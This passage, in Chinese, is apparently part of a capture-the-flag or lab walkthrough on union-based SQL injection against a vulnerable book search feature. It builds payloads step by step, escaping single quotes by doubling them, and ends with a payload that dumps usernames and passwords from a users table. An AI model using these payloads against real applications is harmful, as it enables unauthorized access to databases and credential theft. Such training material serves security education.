 *****现在我们已经完全控制了第二个查询，我们可以使用基于联合的 SQL 注入从数据库中提取数据。目标是使第二个查询类似于以下查询:*****

```
*****SELECT * FROM books WHERE **id** = '' union select 1,2,3,4-- -*****
```

*****让应用程序执行上面的查询应该和注入下面的查询一样简单:*****

```
*****' union select '1' union select 1,2,3,4-- -*****
```

*****但是，我们通过在第二个 UNION 子句前附加单引号(')来结束应该返回的字符串。为了使查询有效并返回第二个 UNION 子句，我们必须对单引号进行转义。对单引号进行转义可以通过将引号(')对折来完成。将引号加倍后，我们得到以下字符串:*****

```
*****' union select '-1''union select 1,2,3,4-- -*****
```

*****注入上面的字符串将返回如下所示的页面:*****

*****![](img/f89e870006a6c214826a3d742d5f89e3.png)*****

# *****工作*****

*****使用你所了解的关于 SQL 注入联盟的知识，利用易受攻击的图书搜索功能来检索旗帜*****

```
*****' union select '-1''union select 1,group_concat(username),group_concat(password),4 from users-- -*****
```

*****![](img/1378fa0002008ceb68a18a46b6c33dda.png)*****
